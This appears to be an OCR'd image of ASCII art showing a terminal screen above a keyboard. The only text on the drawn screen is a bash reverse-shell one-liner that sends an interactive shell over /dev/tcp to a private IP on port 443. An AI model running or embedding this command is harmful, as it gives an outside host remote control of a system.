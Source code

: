 
    *************************************************************************
    *$ bash -i >& /dev/tcp/10.10.9.1/443 0>&1                               *
    *                                                                       *
    *                                                                       *
    *                                                                       *
    *                                                                       *
    *                                                                       *
    *                                                                       *   
    *                                                                       *
    *                                                                       *
    *************************************************************************
      ~ 1 2 3 4 5 6 7 8 9 0 - = BCKSP INS HOME PGUP               -------
      TAB q w e r t y u i o p { } |   DEL END  PGDN               |  |  |
      CAPS  a s d f g h j k l : "  ENTER                          |     |
      SHIFT  z x c v b n m , . /  SHIFT       ||                  |_____|
      CTRL WIN ALT S_P_A_C_E ALT FN WIN CTRL<-   ->
